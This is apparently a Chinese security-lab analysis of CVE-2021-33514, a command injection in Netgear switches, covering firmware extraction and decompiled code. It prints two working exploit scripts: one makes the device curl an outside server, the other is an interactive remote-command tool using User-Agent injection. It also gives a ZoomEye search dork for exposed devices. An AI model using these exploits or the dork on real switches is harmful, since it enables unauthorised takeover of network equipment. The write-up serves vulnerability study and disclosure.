 > 原文链接: https://www.anquanke.com//post/id/248135 


# CVE-2021-33514：Netgear 多款交换机命令注入漏洞


                                阅读量   
                                **25244**
                            
                        |
                        
                                                                                    



[![](https://p1.ssl.qhimg.com/t018ab774e5bd1f21c8.png)](https://p1.ssl.qhimg.com/t018ab774e5bd1f21c8.png)



作者：OneShell@知道创宇404实验室**<br>**

## 漏洞信息

CVE-2021-33514是发生在Netgear多款交换机上的命令注入漏洞，可以未认证远程代码执行，CVSS3：9.8（高危）。

漏洞产生的根本原因是libsal.so.0.0中的函数`sal_sys_ssoReturnToken_chk`存在命令注入，这个函数用于处理url中的`tocken`字段，直接将`tocken`传递到格式化字符串中，然后调用`popen`执行。后端处理setup.cgi加载了该so文件，并且在处理url的时候调用了该存在漏洞的函数。漏洞利用起来也非常简单，直接给cgi发送构造了命令的请求就可以。

Netgear官方给出的受漏洞影响设备和固件版本如下表：

|影响设备|固件版本
|------
|GC108P|&lt;=1.0.7.3
|GC108PP|&lt;=1.0.7.3
|GS108Tv3|&lt;=7.0.6.3
|GS110TPP|&lt;=7.0.6.3
|GS110TPv3|&lt;=7.0.6.3
|GS110TUP|&lt;=1.0.4.3
|GS710TUP|&lt;=1.0.4.3
|GS716TP|&lt;=1.0.2.3
|GS716TPP|&lt;=1.0.2.3
|GS724TPP|&lt;=2.0.4.3
|GS724TPv2|&lt;=2.0.4.3
|GS728TPPv2|&lt;=6.0.6.3
|GS728TPv2|&lt;=6.0.6.3
|GS752TPPv1|&lt;=6.0.6.3
|GS752TPv2|&lt;=6.0.6.3
|MS510TXM|&lt;=1.0.2.3
|MS510TXUP|&lt;=1.0.2.3



## 漏洞复现

复现过程仅仅使用了python的requests模块，设备使用的是放置在公网的GS110TPP，固件版本V7.0.1.16，使用的so和cgi程序关键代码差别不大，具有代表性。通过分析交换机固件发现里面常见的可以反弹shell的程序都木有，那验证命令执行就使用了curl，用它去访问我的公网VPS，如果nc检测到访问，说明发生了命令注入。

```
import requests
vul_url = 'https://X.X.X.X/cgi/setup.cgi?token=\';$(cat);\''
payload = 'curl X.X.X.X.X:8080'
try:
    res = requests.post(url=vul_url, data=payload, verify=False, timeout=10)
    print('[!] should not return any thing')
except:
    print('[+] success!')
```

[![](https://p1.ssl.qhimg.com/t0188cfd924f26b7a90.png)](https://p1.ssl.qhimg.com/t0188cfd924f26b7a90.png)



## 漏洞分析

### <a class="reference-link" name="%E5%9B%BA%E4%BB%B6%E6%8F%90%E5%8F%96"></a>固件提取

首先在Netgear官网上可以下载到存在漏洞的固件，必须赞扬一下Netgear，基本上以往的固件都可以下载到，而且几乎都是没有加密的，这对漏洞分析来说大大的好。下载到固件了按照流程`binwalk -Me`一把梭，然后使用find就会发现，找不到存在漏洞的so文件也找不到存在调用so的cgi程序。仔细看解压出来可能的文件系统文件夹里面，其实还有modsqfs.img和sqfs.img两个文件，这还得binwalk继续梭了这两个文件，才能有得到存在漏洞的so和cgi。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01b244fa4828c9d7e4.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0124589e14ad07ee47.png)

### <a class="reference-link" name="%E9%9D%99%E6%80%81%E5%88%86%E6%9E%90"></a>静态分析

流程上还是比较简单的。首先看一下`libsal.so`里面存在漏洞的函数`sal_sys_ssoReturnToken_chk`，下面是直接贴出来IDA反编译结果，可以看到直接将函数输入`a1`，格式化字符串到`v25`中，然后调用`popen`执行了`v25`。

[![](https://p0.ssl.qhimg.com/t01f9fb43ed0b79e098.png)](https://p0.ssl.qhimg.com/t01f9fb43ed0b79e098.png)

再看看`setup.cgi`中是如何调用这个函数的，这个地方注意，C语言的或逻辑是，如果前面的判定通过了，后续就不进行判定。第一个判定是检查`query_string`中是否含有`tocken`字符串，当我们构造了payload那么判定会失败，则继续执行后面使用逗号连接的C语句，调用漏洞函数。`strtok`函数用于使用特定字符分割字符串，详情使用可以参考函数说明，最终就把`tocken`字段的值赋值给`v9`。

[![](https://p5.ssl.qhimg.com/t019e6b114ffb858e7b.png)](https://p5.ssl.qhimg.com/t019e6b114ffb858e7b.png)

### <a class="reference-link" name="%E5%85%B3%E4%BA%8ECGI%E4%BB%A5%E5%8F%8A%E6%AD%A4%E5%A4%84payload%E7%9A%84%E5%86%99%E6%B3%95"></a>关于CGI以及此处payload的写法

**CGI如何处理用户请求**

之前分析的路由器后端的程序，大多是某某httpd+cgi的做法，当时对于cgi程序如何获取到url传递的参数就仅仅有一个感性的认识：通过环境变量来进行传参，如果是GET请求，那么看环境变量`QUERY_STRING`，如果是POST请求，可能先从`CONTENT_LENGTH`获取数据长度，然后从`STDIN`中读取指定长度的数据。但对于cgi程序是如何执行的，与httpd之间的关系是什么，还是有点迷糊。于是找了一些文章大概看了下。

CGI（Common Gateway Interface）实际上是一种约定，一种接口协议，可以使用c、python、lua、php来实现。WEB服务器会根据CGI的类型决定如何向CGI程序传递数据，一般都是通过标准输入/输出流和环境变量来与CGI程序进行数据传递。例如这个地方的WEB服务器使用的是lighthttpd，通过逆向可以找到有一个函数`http_cgi_headers`是用来传递给CGI程序的一些环境变量的。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t016f585a5f553a7517.gif)

如果是使用的POST方式，服务器设定`CONTENT_LENGTH`环境变量说明POST数据的有效数据字节数，然后CGI通过传递的这个环境变量，从标准输入`STDIN`中去读取数据。在POC里面，首先token字段值会被注入，然后`$(cat)`从从标准输入中去读取数据，而此时POST的数据也被传递到了标准输入中，那么就相当于直接执行了POST发出的数据。

**payload的另一种写法**

如上，是通过环境变量和标准输入传递参数给CGI的，最开始的payload是通过POST请求将数据通过标准输入传递给CGI，而且没有执行结果回显。那么接下来使用GET请求+环境变量+获取执行结果的方式重新来写一次payload。

首先确定将要执行的命令通过哪一个环境变量传入，这个地方选择了`User-Agent`环境变量，也是经常被使用到的一种方式。其次是决定通过何种方式进行回显，此处是将执行结果写入到`/webtmp/`文件夹的一个js文件中。由于`/webtmp/`文件夹和`/tmp/`是链接起来（固件文件系统中查看）的，因此写入到`/webtmp/`文件夹，然后使用URL访问`/tmp/`中的js文件即可。

```
from requests.api import head
import requests
import random
import string
requests.packages.urllib3.disable_warnings()

proxy = `{`
`}`

letters = string.ascii_letters
vul_addr = 'https://X.X.X.X'
vul_url = vul_addr + '/cgi/setup.cgi?token=\';$HTTP_USER_AGENT;\''
random_str = ''.join(random.choice(letters) for i in range(10))

cmd1 = input('InputCMD: ').replace(' ', '$`{`IFS`}`')
cmd2 = f'rm /tmp/`{`random_str`}`.js'.replace(' ', '$`{`IFS`}`')

payload1 = f'sh -c `{`cmd1`}`&gt;/webtmp/`{`random_str`}`.js'
payload2 = f'sh -c `{`cmd2`}`'

header = `{``}`

try:
    header['User-Agent'] = payload1    # 注入命令并将结果写入到js文件
    res = requests.get(vul_url, headers=header, verify=False,
                       timeout=5, allow_redirects=False, proxies=proxy)
    if res.status_code == 200:
        print('[+] command send success')
        result_file = vul_addr + f'/tmp/`{`random_str`}`.js'
        result = requests.get(result_file, timeout=5,
                              verify=False, allow_redirects=False, proxies=proxy) # 读取结果js文件
        print('[+] get result')
        print(result.text)
        print('[+] rm tmp result file')
        header['User-Agent'] = payload2
        res = requests.get(vul_url, headers=header, verify=False,
                           timeout=5, allow_redirects=False, proxies=proxy)    # 删除结果js文件
except Exception as e:
    print(e)
```

[![](https://p5.ssl.qhimg.com/t01cac19e4ecdc4f847.png)](https://p5.ssl.qhimg.com/t01cac19e4ecdc4f847.png)



## 小结

这次的命令注入漏洞逻辑是比较简单的，注入点不需要很长的变量依赖分析。通过对于Netgear几次命令注入漏洞的分析，心中大概也清楚嵌入式设备中路由器大概是怎么获取用户请求数据，然后如何传递给CGI程序进行处理的。



## 使用zoomeye和pocsuite3

### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E5%BD%B1%E5%93%8D%E9%9D%A2"></a>漏洞影响面

通过ZoomEye网络空间搜索引擎，搜索ZoomEye dork数据挖掘语法查看漏洞公网资产影响面。

[zoomeye dork](https://www.zoomeye.org/searchResult?q=%3Faj4%2BfileVer) 关键词：”?aj4+fileVer”

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01c18f8b54dfe8a9be.png)

[漏洞影响面全球视角可视化](https://www.zoomeye.org/globalmap/%3Faj4%2BfileVer/all/0)

[![](https://p5.ssl.qhimg.com/t01952da4d6fc4ff51b.png)](https://p5.ssl.qhimg.com/t01952da4d6fc4ff51b.png)

### <a class="reference-link" name="verify%E6%A8%A1%E5%BC%8F"></a>verify模式

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01cbe3ecb70a9fd7b7.png)

[![](https://p0.ssl.qhimg.com/t01e7cb062582ebc27a.png)](https://p0.ssl.qhimg.com/t01e7cb062582ebc27a.png)

### <a class="reference-link" name="attack%E6%A8%A1%E5%BC%8F"></a>attack模式

[![](https://p1.ssl.qhimg.com/t018c5b2443d8961faf.png)](https://p1.ssl.qhimg.com/t018c5b2443d8961faf.png)

[![](https://p1.ssl.qhimg.com/t01d17827c0d9a4a932.png)](https://p1.ssl.qhimg.com/t01d17827c0d9a4a932.png)



## 参考文献
<li>
[https://www.cnblogs.com/liuzhang/p/3929198.html](https://www.cnblogs.com/liuzhang/p/3929198.html)[/https://www.cnblogs.com/liuzhang/p/3929198.html](//www.cnblogs.com/liuzhang/p/3929198.html)
</li>